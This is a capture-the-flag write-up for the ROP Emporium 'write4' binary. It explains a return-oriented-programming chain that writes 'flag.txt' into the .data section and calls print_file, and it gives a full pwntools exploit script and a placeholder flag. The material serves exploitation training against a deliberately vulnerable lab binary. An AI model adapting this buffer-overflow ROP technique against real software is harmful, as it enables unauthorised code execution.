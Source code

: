 # 🔑 Write-Up

The description tells us what to do. We hava a symbol called `usefulGadgets` that contains a trivial write-what-where. We can use `__libc_csu_init+96` in order to initialize the required registers (`r14` and `r15`). Last thing we miss is finding a place where we can write the required string flag.txt and read it back when calling `print_file`. A good candidate is the `.data` section of the ELF because it's both readable and writable.

```python
from pwn import *

context.binary = "./write4"
r = ROP(context.binary)
p = process()
dst = context.binary.get_section_by_name(".data").header.sh_addr
r(r14=dst, r15=b"flag.txt")
r.usefulGadgets()
r.print_file(dst)
print(r.dump())
p.send(b"A" * 40 + r.chain())
log.success(p.recvline_regex(rb".*{.*}.*").decode("ascii"))
```

### 🚩 Flag

```plain
ROPE{a_placeholder_32byte_flag!}
```